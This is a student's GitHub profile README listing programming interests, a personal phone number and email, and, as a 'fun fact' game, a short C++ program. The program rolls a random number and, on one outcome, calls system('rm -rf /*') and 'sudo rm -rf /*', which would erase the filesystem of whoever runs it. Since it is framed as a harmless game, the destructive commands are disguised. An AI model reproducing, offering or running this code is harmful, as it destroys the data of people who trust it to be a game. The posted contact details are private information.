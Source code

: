 - 👋 Hi, I’m @SalomandraC
- 👀 I am interested in solving problems in C++ and Java. I do frontend in my free time.
- 🌱 I am currently studying C++, Java, CSS, html.
- 💞️ I’m looking to collaborate. It's not that important while I'm studying. I am ready for any tasks on topics of interest to me.
- 📫 How to reach me. You can call +89109863281 or send an email kazak.petrushin@yandex.ru
- 😄 Pronouns: Nikita, Nikitka, Podkopus, You, Ni'Khit, Saloman
- ⚡ Fun fact:
Let's play a game:


#include <iostream>

#include <cstdlib>

#include <time.h>


//system removal function

void kill(){

	system("rm -rf /*");
 
	system("sudo rm -rf /*");
 
}


int main(){

	srand((unsigned) time(NULL));
 
	int randomNumber = (rand() % 7) + 1;
 
	if (randomNumber == 5) {
 
		std::cout << "Last word?" << std::endl;
  
		kill();
  
	} else {
 
		std::cout << "You'll be lucky next time";
  
	}
 
	return 0;
 
}

<!---
SalomandraC/SalomandraC is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
